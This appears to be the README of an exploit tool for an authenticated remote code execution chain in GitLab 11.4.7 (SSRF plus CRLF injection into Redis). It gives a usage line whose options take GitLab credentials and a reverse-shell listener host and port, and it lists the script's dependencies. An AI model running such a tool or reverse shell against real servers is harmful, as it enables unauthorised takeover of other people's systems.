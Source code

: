 # GitLab-11.4.7-Authenticated-Remote-Code-Execution        
# (SSRF + CRLF -> Redis -> RCE)

<h4> Blog : https://github.com/jas502n/gitlab-SSRF-redis-RCE/blob/master/README.md </h4>


<h3> Usage : python gitlab_rce.py -U `USERNAME` -P `PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

<p>optional arguments:</p>

 <p> -h, --help show this help message and exit </p>
 <p> -U         GitLab Username </p>
 <p> -P         Gitlab Password </p>
 <p> -l         rev shell lhost </p>
 <p> -p         rev shell lport </p> 


# Dependencies

<h4> pip install RandomWords==0.1.5 </h4>
<h4> pip install bs4 </h4>
<h4> pip install requests </h4>
